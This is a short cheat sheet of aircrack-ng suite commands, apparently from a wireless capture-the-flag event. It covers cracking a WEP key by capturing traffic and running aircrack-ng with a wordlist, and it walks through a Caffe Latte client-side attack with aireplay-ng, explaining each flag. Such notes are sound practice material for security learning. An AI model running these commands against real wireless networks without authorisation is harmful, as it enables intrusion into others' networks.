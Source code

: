 ## Classic WEP

Basically run airodump for 10 minutes and aircrack

sudo airmon-ng

sudo airmon-ng start wlan27

sudo airodump-ng  -w derp --output-format pcap --band ag wlan27mon


# wget https://raw.githubusercontent.com/rfhs/wctf-files/master/wordlist/cyberpunk.words
sudo aircrack-ng -w cyberpunk.words derp0-01.cap


## Caffe Latte

How to recognize?
You might find in airodump-ng that there are probes to ESSIDs that aren't found.
This signals a client-side attack


Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:

airodump-ng -w cafefile --band ag --essid WCTF_03 wlan29mon


While an airodump-ng capture is running, perform the Caffe-Latte Attack:

aireplay-ng -6 -h 02:00:00:00:1e:00 -b 3A:FD:31:E0:81:F4 -D wlan30mon

    -6 means Cafe-Latte attack
    -h is our card MAC address
    -b is the victim AP
    -D disables AP detection.

find our own mac with `iw dev`

